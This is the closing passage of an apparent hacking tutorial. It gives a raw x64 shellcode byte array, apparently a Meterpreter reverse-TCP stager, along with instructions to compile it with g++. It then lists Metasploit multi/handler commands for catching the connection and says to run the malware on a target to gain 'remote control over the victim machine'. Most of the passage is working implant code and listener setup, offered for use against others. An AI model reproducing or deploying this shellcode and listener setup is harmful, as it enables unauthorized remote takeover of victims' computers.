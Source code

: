 ```
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00"
"\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58"
"\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00"
"\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68"
"\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba"
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f"
"\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49"
"\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48"
"\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\xbb\xe0\x1d"
"\x2a\x0a\x41\x89\xda\xff\xd5";
```

Just copy the shellcode it generated for you (not mine obviously) and replace your previous variable value.

Compile your code! `g++ main.cpp`

### Setup listener

Now we need to listen for incoming victim connections. For this, we'll use the *msfconsole*. Run the command `msfconsole`.

Then, type the following commands:
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP> (0.0.0.0 if public)
set LPORT <PORT>
```

Now that we've configured our listener, we can run the last command: `exploit`!
Then we just have to run the malware on our target.

And...

![Malware metasploit connection](/img/malware-example-2.png)

We have remote control over the victim machine :)

Congratulations if you've made it to this step!

## The End

I hope you've learned valuable skills and knowledge throughout this article. Don't forget to check my other posts if you have the time!

Remember, the program we built is very rudimentary and **WILL** be detected by modern antiviruses. Even Windows Defender, which is installed by default on modern Windows OS. That was just an introduction.

Keep having fun, stay curious and hack the planet!!

